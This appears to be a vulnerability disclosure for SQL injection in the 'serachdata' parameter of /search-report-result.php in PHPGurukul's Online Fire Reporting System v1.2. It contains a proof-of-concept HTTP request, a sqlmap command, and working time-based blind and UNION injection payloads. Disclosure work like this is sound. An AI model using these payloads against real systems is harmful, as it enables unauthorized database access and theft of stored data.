 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /search-report-result.php

**vender**:

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /search-report-result.php

**Version**

- V1.2

### POC

```http
POST /search-report-result.php HTTP/1.1
Host: www.firereport.top
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0

serachdata=test
```



```bash
sqlmap -u http://localhost/search-report-result.php --data="serachdata=test" -p serachdata --batch
```





```
---
Parameter: serachdata (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: serachdata=test' AND (SELECT 1379 FROM (SELECT(SLEEP(5)))dsAx)-- nnah

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: serachdata=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716a6b6271,0x457447454e615370536e4d76764557546f4a5a5370505762507474724a706d54446a4375714c4157,0x716a627171),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```

![image-20250531182118604](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311821955.png)